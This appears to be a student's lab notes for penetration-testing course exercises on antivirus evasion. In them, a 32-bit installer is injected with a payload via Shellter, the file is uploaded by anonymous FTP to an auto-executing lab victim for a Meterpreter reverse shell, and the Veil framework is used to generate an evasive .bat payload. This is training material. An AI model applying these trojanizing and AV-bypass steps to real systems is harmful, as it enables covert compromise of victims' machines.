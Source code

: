 
# 17.3.5.5
In this exercise, you'll be facing off against **COMODO** antivirus engine running on VM #1.  
Use another popular 32-bit application, like Putty, to replicate the steps learned so far in order to inject malicious code in the binary with Shellter.  
The victim machine runs an anonymous FTP server with open read/write permissions. Every few seconds, the victim user will double-click on any existing **.exe** Windows PE file(s) in the FTP root directory.  
If the antivirus flags the script as malicious, the script will be quarantined and then deleted. Otherwise, the script will execute and, hopefully, grant you a reverse shell.  
**NOTE:** set the FTP session as _active_ and enable _binary_ encoding while transferring the file.  
  
  
Using WinRAR.exe from the chapter.  
  
Use default user: anonymous. No pw.  
  
**passive..... Prevents entering Extended Passive Mode when attempting to upload binary

```bash
ftp <vic_ip>  
	Connected to 192.168.224.53.  
	220 Microsoft FTP Service  
	Name (192.168.224.53:kali): Anonymous  
	331 Anonymous access allowed, send identity (e-mail name) as password.  
	Password:   
	230 User logged in.  
	Remote system type is Windows_NT.  
ftp> passive  
	Passive mode: off; fallback to active mode: off.  
ftp> bin  
	200 Type set to I.  
ftp> put winrar-x32-611.exe   
	local: winrar-x32-611.exe remote: winrar-x32-611.exe  
	200 EPRT command successful.  
	150 Opening BINARY mode data connection.
	100% |*****************************************************|  3140 KiB  579.11 KiB/s    00:00 ETA  
	226 Transfer complete.  
	3215872 bytes sent in 00:05 (569.71 KiB/s)
```

In [**Meterpreter**](Meterpreter.md) session:
```bash
cat C:\\Users\\Administrator\\Desktop\\flag.txt
```


# 17.3.5.6
Similar to the previous exercise, you'll be facing off against **COMODO** antivirus engine v12.2.2.8012 on VM #2.  
  
Although the PowerShell AV bypass we covered in this module is substantial, it has an inherent limitation:  
The malicious script cannot be "double-clicked" by the user for an immediate execution. Instead, it would open in **notepad.exe** or another default text editor.  
  
The tradecraft of manually weaponizing PowerShell scripts is beyond the scope of this module, but we can rely on another open-source framework to help us automate this process.  
Research how to install and use the [Veil](https://github.com/Veil-Framework/Veil) framework to help you with this challenge.  
The victim machine runs an anonymous FTP server with open read/write permissions.  
Every few seconds, the victim user will double-clck on any existing **.bat** Windows batchscript file(s) in the FTP root directory.  
If the antivirus flags the script as malicious, the script will be quarantined and then deleted. Otherwise, the script will execute and, hopefully, grant you a reverse shell

[**Veil**](Tools.md#Veil):
![[veil.png]]

list:
![[veil1.png]]
![[veil2.png]]
![[veil3.png]]

Payload is saved to:
```bash
/var/lib/veil/output/source/payload.bat
```